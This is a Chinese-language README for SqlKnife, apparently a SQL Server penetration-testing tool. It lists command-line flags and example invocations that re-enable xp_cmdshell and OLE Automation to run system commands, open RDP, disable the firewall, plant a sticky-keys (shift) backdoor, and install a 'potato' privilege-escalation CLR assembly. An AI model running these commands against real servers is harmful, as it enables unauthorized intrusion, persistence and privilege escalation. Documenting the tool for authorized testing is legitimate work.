# SqlKnife

适合在命令行中使用的轻巧的SQL Server数据库安全检测工具。

## 参数说明

![](img/Snipaste_2021-08-03_10-43-27.png)

```
 <-H host> <-P port> <-u username> <-p password> <-D dbname> <--openrdp> <--shift> <--disfw> <--xpcmd> <--oacreate> <--dbup> <--fix> <--remove> <--3/--4>
```

-H 目标ip，默认127.0.0.1

-P 端口，默认1433

-u 用户名，默认sa

-p 密码，默认为空字符串

-D 数据库名，默认master

-c 要执行的命令

--openrdp 开启目标远程桌面并读取当前远程桌面端口号

--shift 劫持shift键

--disfw 关闭目标防火墙

--xpcmd 与-c参数结合使用，利用xp_cmdshell执行命令

--oacreate 与-c参数结合使用，利用Ole Automation Procedures执行命令（无回显）

--fix 与xpcmd或者oacreate结合使用，启用存储过程

--3/--4 使用什么版本的clr payload 默认为4.0

--remove 把程序集清理掉并且禁用相关功能

## 示例

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

![](img/Snipaste_2021-08-03_10-46-08.png)

![Snipaste_2021-08-03_10-46-29](img/Snipaste_2021-08-03_10-46-29.png)

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

![Snipaste_2021-08-03_10-47-04](img/Snipaste_2021-08-03_10-47-04.png)

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

![Snipaste_2021-08-03_10-47-56](img/Snipaste_2021-08-03_10-47-56.png)


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

![Snipaste_2021-08-03_10-56-34](img/Snipaste_2021-08-03_10-56-34.png)

### 开RDP，关防火墙加规则（开RDP时自动加），装shift后门

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

![Snipaste_2021-08-03_11-36-43](img/Snipaste_2021-08-03_11-36-43.png)

![Snipaste_2021-08-03_11-36-57](img/Snipaste_2021-08-03_11-36-57.png)

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

![Snipaste_2021-08-03_11-42-58](img/Snipaste_2021-08-03_11-42-58.png)

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

![Snipaste_2021-08-03_11-45-54](img/Snipaste_2021-08-03_11-45-54.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### PotatoInSQL(--dbup)
将土豆提权作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

![Snipaste_2021-08-03_11-17-47](img/Snipaste_2021-08-03_11-17-47.png)

![Snipaste_2021-08-03_11-18-02](img/Snipaste_2021-08-03_11-18-02.png)



#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

![Snipaste_2021-08-03_11-28-46](img/Snipaste_2021-08-03_11-28-46.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### 启用/还原配置功能

![Snipaste_2021-08-03_11-29-35](img/Snipaste_2021-08-03_11-29-35.png)

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload
